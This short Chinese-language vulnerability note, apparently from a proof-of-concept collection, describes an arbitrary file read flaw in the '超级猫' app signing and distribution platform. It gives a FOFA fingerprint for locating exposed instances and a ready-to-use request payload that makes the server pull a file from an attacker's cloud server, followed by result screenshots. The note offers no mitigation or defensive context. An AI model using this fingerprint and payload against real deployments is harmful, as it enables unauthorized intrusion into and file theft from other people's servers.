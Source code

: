 # C15-2超级猫-签名APP分发平台-任意文件读取

## 漏洞描述：

超级猫超级签名分发平台是一个安卓苹果APP分发平台，能够对所有安卓苹果的APP进行签名分发，使所有自行开发的APP能够签名使用，包括登录注册等功能，还提供有SDK

## fofa语法：

"/themes/97013266/public/static/css/pc.css"

## 漏洞复现：

注意这里需要先登录，这处可以直接注册的 payload：

```auto
/user/profile/download?url=http://云服务器地址/111.php&path=1
```

效果图： ![效果图](https://github.com/user-attachments/assets/455cedb5-1ab7-494f-91aa-9d3a32a8a727)
 
效果图： ![效果图](https://github.com/user-attachments/assets/ab3bdabc-a378-4482-8339-eb8a2ddbe0bc)
